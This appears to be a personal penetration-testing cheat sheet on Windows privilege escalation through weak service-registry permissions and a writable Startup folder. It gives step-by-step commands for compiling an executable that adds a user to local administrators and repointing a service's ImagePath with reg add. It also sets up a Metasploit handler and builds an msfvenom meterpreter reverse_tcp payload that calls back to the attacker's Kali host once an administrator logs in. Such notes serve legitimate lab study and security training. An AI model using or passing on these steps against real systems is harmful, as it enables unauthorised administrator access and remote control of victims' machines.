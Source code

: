 ```yaml
---
title: Service Startup / Startup Applications
updated: 2023-10-10 11:11:59Z
created: 2023-10-03 02:12:38Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# Service escalation
Check permissions on targeted service under registry key **HKLM\SYSTEM\CurrentControlSet\Services**

1. `Get-Acl -Path hklm:\System\CurrentControlSet\services\<service> | fl`
2. Check if anyone has FULL PERMISSION
3. Compile an executable to run commands (eg add users to local administrators group)
Open **windows_service.c** and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators <user> /add`
4. `x86_64-w64-mingw32-gcc windows_service.c -o file.exe`
5. Update registry service with parth of executable (file.exe)
 `reg add HKLM\SYSTEM\CurrentControlSet\services\<service> /v ImagePath /t REG_EXPAND_SZ /d c:\temp\file.exe /f`
 Start service
 6. `sc start <service>`

# Startup Applications
Check ACL's on Startup folder
1 `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
2. Look for FULL ACCESS

## Exploitation

**Kali VM**

1. `msfconsole`
2. `use multi/handler`
3. `set payload windows/meterpreter/reverse_tcp`
4. `set lhost [Kali VM IP Address]`
5. `run`
Create payload:
6. `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o file.exe`
7. Copy the **file.exe**, to the Windows target.

**Windows target**

1. Place **file.exe** in **“C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.**
2. Logoff.
3. Login with the administrator account credentials.

**Kali VM**

1. Wait for a session to be created, it may take a few seconds.
2. In Meterpreter(meterpreter > prompt) type: `getuid`
***
